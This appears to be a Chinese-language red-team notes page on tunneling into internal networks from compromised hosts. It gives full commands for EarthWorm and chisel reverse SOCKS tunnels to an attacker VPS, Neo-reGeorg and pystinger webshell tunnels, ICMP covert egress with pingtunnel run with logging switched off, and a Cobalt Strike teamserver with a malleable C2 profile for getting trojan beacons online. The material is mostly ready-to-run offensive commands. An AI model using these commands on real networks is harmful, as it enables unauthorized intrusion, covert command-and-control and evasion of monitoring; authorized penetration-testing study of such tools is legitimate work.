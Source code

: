 

[TOC]



# EarthWorm内网穿透

## 正向socks5服务器

当目标网络边界存在公网IP且可任意开监听端口 

```bash
./ew_linux_x64 -s ssocksd -l 1080
```

可在该目标机器上开启一个8888的正向连接，然后其他主机可通过SwitchyOmega设置socks5代理为目标主机ip:1080 ，添加这个代理就可以使用了

## 反向socks5服务器

### 服务器（外网vps）

```bash
./ew_linux_x64 -s rcsocks -l 1080 -e 5555
```

解释：把1080端口收到的请求转发给5555端口。

### 目标主机

通过CS把ew传到目标主机上，在指定目录输入命令`ew_win32.exe -s rssocks -d vpsip -e 5555`

```bash
shell C:\Users\admin\Downloads\ew\release\ew_win32.exe -s rssocks -d 192.168.211.129 -e 5555
```

解释：在目标主机启动服务，反弹到公网主机的5555端口。

通过SwitchyOmega设置socks5代理为vps的ip:1080挂上代理就成功了，可以访问内网了。

# chisel（http协议）

vps上执行

```bash
./chisel server -p 6666 -reverse
```

获取密钥，再到肉鸡上执行`chisel client -fingerprint 密钥 -v vps地址:端口 R:0.0.0.0:13389:127.0.0.1:肉鸡想映射的端口`

```cmd
C:\Users\root\Desktop\icmp代理>chisel.exe client -fingerprint DiGhDFpt5cE+hqJb+plMzB5HyJIKYXTKfXA2L75WWGU= -v 192.168.211.129:6666 R:0.0.0.0:13389:127.0.0.1:80
```

成功后，访问vps的13389端口就是肉鸡80端口

# Neo-reGeorg

生成有密码的webshell并上传到WEB服务器`python neoreg.py generate -k 密码`

```bash
python3 neoreg.py generate -k password
```

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理`python neoreg.py -k 密码 -u http://肉鸡ip/tunnel.php`

```bash
python3 neoreg.py -k password -u http://192.168.211.140/tunnel.php
```

默认在本地1080端口，通过SwitchyOmega设置socks5代理为127.0.0.1:1080挂上代理，访问127.0.0.1就是web服务器（隧道只能本地访问）

# 伪装成icmp出网

### 服务器（外网vps）

把10080端口收到的请求转发给8898端口。

```bash
./ew_for_linux -s rcsocks -l 10080 -e 8898
```

开启pingtunnel服务端

```bash
./pingtunnel -type server
```

### 目标主机

通过CS把ew、pingtunnel传到目标主机上，在指定目录输入命令

在目标主机启动pingtunnel服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`pingtunnel.exe -type client -l 127.0.0.1:9999 -s vps -t vps:8898 -sock5 -1 -noprint 1 -nolog 1`

```cmd
C:\Users\root\Desktop\内网代理>pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.211.129 -t 192.168.211.129:8898 -sock5 -1 -noprint 1 -nolog 1
```

在目标主机启动ew服务

```cmd
C:\Users\root\Desktop\内网代理>ew_for_win_32.exe -s rssocks -d 127.0.0.1 -e 9999
```

通过SwitchyOmega设置socks5代理为vps的ip:10080挂上代理就成功了，可以访问内网了。

# 伪装成http出网

Step1.肉鸡上开启pystinger服务端：

```cmd
C:\Users\root\Desktop\内网代理\dist>stinger_server.exe 0.0.0.0
```

Step2.上传webshell到肉鸡web目录：

Step3.vps上开启pystinger客户端：`./stinger_client -w http://肉鸡ip/proxy.php -l 127.0.0.1 -p 60000`

```bash
./stinger_client -w http://192.168.211.140/proxy.php -l 127.0.0.1 -p 60000
```

vps启动cs，cs连接

```bash
./teamserver vpsip 密码 ./malleable-c2-master/jquery-c2.4.3.profile
```

出网肉鸡：

监听都写127.0.0.1，端口60020，生成对应木马上线

不出网肉鸡：

监听都写肉鸡内网IP地址，端口60020，生成对应木马上线